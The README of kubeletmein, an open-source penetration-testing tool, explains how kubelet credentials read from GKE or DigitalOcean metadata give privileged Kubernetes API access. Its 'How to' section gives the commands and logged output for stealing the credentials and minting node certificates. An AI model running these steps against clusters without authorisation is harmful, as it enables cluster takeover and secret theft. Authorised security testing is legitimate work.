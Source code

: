 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/](https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

I'm working on support for EKS. It's actually a lot easier to exploit this on EKS than GKE.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein bootstrap gke
2018-11-29T21:21:26Z [ℹ]  fetching kubelet creds from metadata service
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

Coming soon.....

### Digital Ocean

```
~ $ kubeletmein bootstrap do
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
```

Now generate the kubeconfig with a downloaded cert
```
~ $ kubeletmein generate -n whatevs
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
